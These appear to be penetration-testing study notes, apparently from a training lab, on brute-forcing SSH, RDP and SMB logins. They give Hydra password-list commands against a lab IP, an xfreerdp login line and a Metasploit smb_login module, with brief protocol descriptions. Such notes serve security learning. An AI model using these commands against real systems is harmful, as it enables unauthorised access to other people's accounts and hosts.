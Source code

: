 ### Hydra for SSH
- **Command to brute-force SSH:**
  ```bash
  hydra -L user.list -P password.list ssh://10.129.42.197
  ```
Login to SSH

```
 ssh user@10.129.42.197
```
### RDP
- Definition: Microsoft's protocol for remote access to Windows systems.
- Default Port: TCP port 3389.
- Features:
   Allows remote access to Windows hosts.
   Supports audio, keyboard, mouse input, and document printing.
   Application layer protocol using TCP and UDP.

**Hydra for RDP**
```
hydra -L user.list -P password.list rdp://10.129.42.197
```

**XFreeRdp**

```
xfreerdp /v:<target-IP> /u:<username> /p:<password>
```
### Server Message Block (SMB)

- **Purpose**: Protocol for transferring data between client and server in local area networks.
- **Uses**:
  - File and directory sharing
  - Printing services in Windows networks
- **Comparison**: Similar to NFS for Unix/Linux for local network drives.
- **Also Known As**: Common Internet File System (CIFS).
- **Compatibility**: Enables remote connections across platforms (Windows, Linux, macOS).
- **Open Source Implementation**: Samba.
- **Brute Forcing Tool**: Hydra can be used to attempt different usernames and passwords with SMB.

**Hydra - SMB**

```
hydra -L user.list -P password.list smb://10.129.42.197
```
you may get an error rThis is because we most likely have an outdated version of THC-Hydra that cannot handle SMBv3 replies. To work around this problem, we can manually update and recompile hydra or use another very powerful tool, the Metasploit framework.

**Metasploit Framework**

```
msfconsole -q
use auxiliary/scanner/smb/smb_login
```
then set the wordlist and for both user and pass to bruteforce.
